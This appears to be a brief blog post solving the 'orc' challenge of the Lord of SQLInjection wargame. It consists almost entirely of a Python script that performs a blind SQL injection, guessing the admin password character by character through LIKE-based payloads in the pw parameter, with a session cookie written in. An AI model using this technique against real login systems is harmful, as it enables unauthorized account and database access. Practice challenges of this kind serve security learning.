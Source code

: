 ```yaml
---
title: "LOS 4번"
date: 2020-08-07
tag: [pwnable]
layout: post
---
```


{% highlight python %}
import requests

url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php"

headers={"Cookie": "PHPSESSID=5hs4v4mu95ovdpmiij918hfdrq"}
st = ""
for i in range(8):
  for j in range(48,127):
    if chr(j)=='%' or chr(j)=='_': continue
    params = {"pw":"' or id='admin' and binary pw like '{}%".format(st+chr(j))}
    r = requests.get(url = url, params = params, headers = headers)
    if 'Hello admin' in r.text:
      print(chr(j))
      st+=chr(j)
      break
print(st)
{% endhighlight %}
